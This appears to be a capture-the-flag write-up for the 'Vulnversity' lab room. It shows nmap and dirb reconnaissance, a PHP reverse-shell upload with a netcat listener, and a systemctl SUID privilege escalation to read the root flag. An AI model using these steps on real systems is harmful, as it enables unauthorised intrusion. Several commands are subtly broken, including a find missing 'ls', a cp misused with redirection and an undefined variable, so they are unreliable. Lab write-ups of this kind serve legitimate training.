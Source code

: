 ﻿
## Vulnversity  
Focuses on active recon, Web app attacks and privilege escalation 
### Reconnaissance
Gathering information about the machine using tools such as nmap. 
Always perform reconnaissance thoroughly before progressing. 

 #### Nmap

    nmap -v -A -sV -sC -A -p- -Pn -oN nmap.out 10.10.228.44

-A : Aggressive Scan and provides OS and Version Detection 
-sV : Discovers the Services with their versions 
-sC: Scan with default nmap scripts 
-p-: Scan all 65535 ports
-Pn: Disable the host discovery and perform only scan on open ports. 
-oN: Save the output in a file 

*Result:*
- The target has below ports open
- Operating System: Ubuntu 
- Services: 
	 - HTTP - 3333 
	 - SSH - 
	 - 
 ### Scanning HTTP service 
 Using dirb scan the HTTP service to find the directories. 

    dirb http://10.10.228.44:3333/ /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

*Result* 
                                                 
    GENERATED WORDS: 87568      
    ---- Scanning URL: http://10.10.228.44:3333/ ----
    ==> DIRECTORY: http://10.10.228.44:3333/images/                                                                      
    ==> DIRECTORY: http://10.10.228.44:3333/css/                                                                         
    ==> DIRECTORY: http://10.10.228.44:3333/js/                                                                          
    ==> DIRECTORY: http://10.10.228.44:3333/fonts/                                                                       
    ==> DIRECTORY: http://10.10.228.44:3333/internal/   

Navigate to these directories and found `/internal/` is hosting a upload page. 

### Get a reverse shell
- Using Burp, found the site is accepting the phtml extension in upload page.
- Using the [exploit](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), configured the listening host and port and uploaded the php reverse shell code to the target. 
- Opened the netcat on the listening host and port.
  `nc -nlvp 4444` 
- Execute the uploaded file by navigating to /internal/uploads/ and the reverse shell connection is established. 

### Privilege Escalation 

 - Found the server has mis-configuration  with setuid bit on /bin/systemctl 
 `find / -perm /4000 -type f -exec -ld {} \; 2>/dev/null`
 - Created a new service by: 
 - 

    echo '[Service]
     ExecStart=/bin/sh -c "cp /root/root.txt > /tmp/flag.txt" 
     [Install]
     WantedBy=multi-user.target' > $eob
- Started the service: 

    /bin/systemctl link $eob
    /bin/systemctl enable --now $eob

- The file was written to desired file in /tmp and thus able to escalate the privileges. 


> Written with [StackEdit](https://stackedit.io/).
